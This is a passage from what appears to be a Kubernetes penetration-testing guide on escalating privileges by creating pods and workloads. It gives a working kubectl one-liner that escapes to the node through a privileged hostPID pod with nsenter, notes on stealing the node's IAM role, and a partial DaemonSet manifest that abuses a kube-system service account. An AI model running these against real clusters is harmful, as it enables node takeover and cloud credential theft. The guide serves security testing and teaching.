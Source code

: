 One-liner from [this tweet](https://twitter.com/mauilion/status/1129468485480751104) and with some additions:

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Now that you can escape to the node check post-exploitation techniques in:

#### Stealth

You probably want to be **stealthier**, in the following pages you can see what you would be able to access if you create a pod only enabling some of the mentioned privileges in the previous template:

* **Privileged + hostPID**
* **Privileged only**
* **hostPath**
* **hostPID**
* **hostNetwork**
* **hostIPC**

_You can find example of how to create/abuse the previous privileged pods configurations in_ [_https://github.com/BishopFox/badPods_](https://github.com/BishopFox/badPods)

### Pod Create - Move to cloud

If you can **create** a **pod** (and optionally a **service account**) you might be able to **obtain privileges in cloud environment** by **assigning cloud roles to a pod or a service account** and then accessing it.\
Moreover, if you can create a **pod with the host network namespace** you can **steal the IAM** role of the **node** instance.

For more information check:

{% content-ref url="pod-escape-privileges.md" %}
[pod-escape-privileges.md](pod-escape-privileges.md)
{% endcontent-ref %}

### **Create/Patch Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs**

Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs are all privileges that allow the creation of different tasks in the cluster. Moreover, it's possible can use all of them to **develop pods and even create pods**. So it's possible to a**buse them to escalate privileges just like in the previous example.**

Suppose we have the **permission to create a Daemonset** and we create the following YAML file. This YAML file is configured to do the same steps we mentioned in the “create pods” section.

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: alpine
  namespace: kube-system
spec:
  selector:
    matchLabels:
      name: alpine
  template:
    metadata:
      labels:
        name: alpine
    spec:
      serviceAccountName: bootstrap-signer
```